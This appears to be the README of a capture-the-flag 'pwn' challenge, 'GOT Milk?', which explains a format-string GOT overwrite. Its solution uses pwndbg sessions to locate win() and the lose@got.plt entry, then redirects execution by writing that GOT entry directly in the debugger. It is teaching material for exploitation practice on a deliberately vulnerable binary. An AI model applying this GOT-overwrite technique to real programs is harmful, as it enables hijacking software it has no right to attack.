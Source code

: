 # GOT Milk?

> Recommended Category: pwn

CTF Challenge for a format-string based GOT overwrite attack, where the attacker will need to leverage a crafted malicious format string input in order to redirect program execution towards the `win()` function.

## Setup

```
$ make
```

This initializes the challenge binary and dependencies, including the shared object library. The binary
is compiled without RELRO, and not stripped of any binary symbols. It is also linked to the shared object library,
which is built using the header present in `lib/` and should also be copied to a custom `LD_LIBRARY_PATH`.

## The Challenge

This `pwn`-able binary delivers several interesting challenges:

* Disassembling functionality of `lose`, which actually has some interesting un-optimized dead code that helps discover the `win` relocation.
* Figuring out the address of the `win` relocation symbol.
* Crafting malicious format string to pass to call `win` relocation.

## The Solution

In order to redirect execution, we need to keep in mind how the GOT/PLT works, and the
idea behind lazy loading.

When looking at the binary, we can figure out that while `win()` is never called dynamically (therefore it shouldn't have a stub in the `.got.plt` and `.got` sections),
there is dead code that never got eliminated, which makes a call to `win()`.

Let's run the binary once in a disassembler, and see if the function address is loaded after an initial execution:

```
pwndbg> x win
No symbol "win" in current context

pwndbg> r
Starting program: /home/vagrant/ctf_challenges/got-milk/got_milk
Hey you! GOT milk? asdfasdfasdf
Your answer: asdfasdfasdf

No flag for you!
[Inferior 1 (process 8338) exited normally]

pwndbg> x win
0xf7fbb189 <win>:       0x53e58955
```

The address `0xf7fbb189` is where we want to redirect execution to once we reach the vulnerable `printf`. Let's figure out the address of `lose` in the GOT, by first disassembling `main`, and figuring out where our `call` is to `lose` in the PLT stub:

```
pwndbg> disass main
...
   0x080491e0 <+94>:    lea    eax,[ebp-0x6c]
   0x080491e3 <+97>:    push   eax
   0x080491e4 <+98>:    call   0x8049030 <printf@plt>
   0x080491e9 <+103>:   add    esp,0x10
   0x080491ec <+106>:   call   0x8049040 <lose@plt>
   0x080491f1 <+111>:   mov    eax,0x0

pwndbg> disass 0x8049040
Dump of assembler code for function lose@plt:
   0x08049040 <+0>:     jmp    DWORD PTR ds:0x804c010
   0x08049046 <+6>:     push   0x8
   0x0804904b <+11>:    jmp    0x8049020

pwndbg> x 0x804c010
0x804c010 <lose@got.plt>:       0x08049046
```

We want to overwrite the address `0x804c010` with our `win` address. Let's break before and after the vulnerable `printf` function, and attempt to redirect execution:

```
pwndbg> b *0x080491e4
Breakpoint 1 at 0x80491e4: file binary.c, line 23.

pwndbg> b *0x080491e9
Breakpoint 2 at 0x80491e9: file binary.c, line 23.

pwndbg> r
Starting program: /home/vagrant/ctf_challenges/got-milk/got_milk
Hey you! GOT milk? asdfasdf
...

pwndbg> set {int}0x804c010=0xf7fbb189
...

pwndbg> c
Continuing
Breakpoint 2, 0x080491e9 in main (argc=1, argv=0xffffd424) at binary.c:23

pwndbg> c
Continuing.
flag{someflag}
```


